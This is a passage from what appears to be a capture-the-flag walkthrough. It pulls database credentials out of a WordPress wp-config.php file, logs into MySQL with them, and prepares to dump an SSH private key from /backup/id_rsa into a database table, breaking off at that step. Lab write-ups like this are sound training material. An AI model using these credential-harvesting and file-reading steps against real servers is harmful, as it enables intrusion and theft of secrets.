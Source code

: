 ```NMA
require_once( ABSPATH . 'wp-settings.php' );
```

 Thankfully we only care about ONE section of this

```NMA

	// ** MySQL settings - You can get this info from your web host ** //
	/** The name of the database for WordPress */
	define('DB_NAME', 'wordpress');
	
	/** MySQL database username */
	define('DB_USER', 'wordpress');
	
	/** MySQL database password */
	define('DB_PASSWORD', '0NYa6PBH52y86C');
	
	/** MySQL hostname */
	define('DB_HOST', '172.30.0.2');

```

Check it out! There is the database login!

4. Lets log into the server

	```NMA
	mysql -u wordpress -p -h 172.30.0.2

	NOTES:
	-u is the wordpress user
	-p is the password (0NYa6PBH52y86C)
	-h is the host which is 172.30.0.2
	```
5. Once logged in using the credentials we should poke around a bit. We know that the wp instance uses the Wordpress database which we can select as our database too. 

	```
	use wordpress; #; is very important here
	```
	 And now lets see the tables we are working with

	```
	show tables;
	```
	Once we look around for a few minutes we can see that `wp_links` is empty

	```
	select * from wp_links;

	Output:
	Empty set (0.08 sec)
	```

	This seems like a good place to dump the contents of a file (hint hint)
6. We were given that the ssh key was in `/backup/id_rsa` which we can actually dump the contents of that file into `wp_links`
